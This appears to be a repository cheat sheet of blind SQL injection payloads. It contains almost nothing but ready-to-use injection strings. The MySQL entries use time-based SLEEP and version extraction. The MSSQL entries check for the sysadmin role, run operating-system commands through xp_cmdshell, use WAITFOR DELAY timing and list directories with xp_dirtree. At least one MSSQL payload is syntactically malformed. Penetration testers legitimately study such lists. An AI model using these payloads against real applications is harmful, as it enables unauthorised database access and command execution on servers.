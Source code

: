 # Inferential SQL Queries

Search Tag: #helpers #blind-sql-injection #webapp

## MySQL

Inject time-based blind payloads

```
' OR IF(1=1, SLEEP(5), 0)#
```

Grab version

```
' OR IF(1=1, SLEEP(5), 0) UNION SELECT (SELECT version())#
```

## MSSQL

```
' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 1 EXEC xp_cmdshell('echo Enabled')

' IF (SELECT CASE WHEN (SELECT IS_SRVROLEMEMBER('sysadmin')) = 1 THEN WAITFOR DELAY '0:0:16' ELSE 0 END) = 1

' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 0 EXEC xp_cmdshell('echo Disabled')

' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 0 WAITFOR DELAY '0:0:16' ELSE 0 END) = 1

' IF (SELECT SUBSTRING(@@version, 1, 1)) = '1' WAITFOR DELAY '0:0:16'

' OR 1=1; EXEC xp_dirtree 'C:\your_target_directory', 1, 1;-- -
```